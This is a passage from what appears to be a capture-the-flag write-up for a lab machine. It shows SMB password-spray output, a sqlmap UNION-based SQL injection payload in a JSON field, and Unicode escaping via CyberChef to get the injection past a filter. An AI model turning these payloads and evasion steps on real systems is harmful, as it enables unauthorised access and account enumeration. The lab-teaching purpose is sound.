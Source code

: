 ```
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\ckane:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\ckane:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\kpage:password1 STATUS_LOGON_FAILURE 
...[snip]...

```

### Dump Domain Users

A bit stuck, I eventually turned back to the database and [this article](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/) on how to dump domain users from MSSQL. It shows how to do it through intended interactions with the database, and at the very end through Metasploit / SQLi.

#### Back to Manual

Given that I’m going into new territory, I decided to go back to manual SQLi at this point. I have the example query from `sqlmap` for UNION 5 columns:

```

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: {"name":"test' UNION ALL SELECT 58,58,58,CHAR(113)+CHAR(112)+CHAR(122)+CHAR(107)+CHAR(113)+CHAR(68)+CHAR(105)+CHAR(69)+CHAR(119)+CHAR(71)+CHAR(98)+CHAR(76)+CHAR(83)+CHAR(102)+CHAR(68)+CHAR(114)+CHAR(73)+CHAR(109)+CHAR(73)+CHAR(98)+CHAR(101)+CHAR(116)+CHAR(99)+CHAR(70)+CHAR(80)+CHAR(103)+CHAR(101)+CHAR(86)+CHAR(113)+CHAR(73)+CHAR(82)+CHAR(103)+CHAR(90)+CHAR(115)+CHAR(114)+CHAR(76)+CHAR(73)+CHAR(77)+CHAR(105)+CHAR(103)+CHAR(73)+CHAR(71)+CHAR(67)+CHAR(83)+CHAR(111)+CHAR(113)+CHAR(98)+CHAR(120)+CHAR(98)+CHAR(113),58-- gxQm"}

```

If I look at that query, it’s clearly putting 58 into columns 1, 2, 3, and 5, and then some long string in column 4.

There’s also this warning:

```

[WARNING] changes made by tampering scripts are not included in shown payload content(s)

```

The easiest place I found to work was [CyberChef](https://gchq.github.io/CyberChef/), where I could use the Escape Unicode Characters recipe, and then just update the input and copy out the result:

![image-20200331063716896](https://0xdfimages.gitlab.io/img/image-20200331063716896.png)

Throwing that into Repeater, the injection works:

![image-20200331063743518](https://0xdfimages.gitlab.io/img/image-20200331063743518.png)
